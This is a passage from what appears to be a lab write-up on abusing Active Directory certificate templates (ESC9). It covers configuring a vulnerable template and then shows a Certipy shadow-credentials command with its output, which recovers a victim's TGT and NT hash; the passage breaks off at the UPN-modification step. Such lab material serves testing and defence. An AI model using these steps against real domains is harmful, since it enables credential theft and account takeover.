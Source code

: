 Request ID:	54
Requester:	PURPLETEAM\DC01$
Attributes:	
CertificateTemplate:DomainController
ccm:DC01.purpleteam.local
Disposition:	3
SKI:		78 a0 a1 97 f1 36 d9 04 b8 9d c5 70 53 47 33 fd 75 14 67 df
Subject:	CN=DC01.purpleteam.local
```

# 10. ESC9

## 10.1 Create a vulnerable template
We duplicate the User certificate template, change its name under the **Subject Name** tab and setup the following condition. 
![ESC9_configuration.png](ESC9/ESC9_configuration.png)

Under the ADSI Edit tool, we need to do the following : 

![ESC9_configurationNamingContext.png](ESC9/ESC9_configurationNamingContext.png)

![ESC9_configuration2.png](ESC9/ESC9_configuration2.png)

Then edit the ESC9 properties and under the security flag add the following rights to domain users (or only the attacker account) : 
![ESC9_configuration3.png](ESC9/ESC9_configuration3.png)

Then, on the ADCS server, open regedit.exe and add a DCWORD (32-bit) value with the name StrongCertificateBindingEnforcement : 
![ESC9_configuration4.png](ESC9/ESC9_configuration4.png)

```NB : We also need to create an account on which the attacker have enough right to modify its attributes. I created a victim account and gave FullControll to my attacker account.```

## 10.2 Exploitation
1. Use a ShadowCredential attack to compromise the victim account.
```
└─$ certipy shadow auto -username 'attacker@purpleteam.local' -p '1attacker*' -account 'victim'                
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: PURPLETEAM.LOCAL.
[!] Use -debug to print a stacktrace
[*] Targeting user 'victim'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '611ad1d33abf4555859c223674160e40'
[*] Adding Key Credential with device ID '611ad1d33abf4555859c223674160e40' to the Key Credentials for 'victim'
[*] Successfully added Key Credential with device ID '611ad1d33abf4555859c223674160e40' to the Key Credentials for 'victim'
[*] Authenticating as 'victim' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'victim@purpleteam.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'victim.ccache'
[*] Wrote credential cache to 'victim.ccache'
[*] Trying to retrieve NT hash for 'victim'
[*] Restoring the old Key Credentials for 'victim'
[*] Successfully restored the old Key Credentials for 'victim'
[*] NT hash for 'victim': 426b549fe65d8fca40c950331006af8c
```

2. Modify its UPN to match the one of the targeted account
```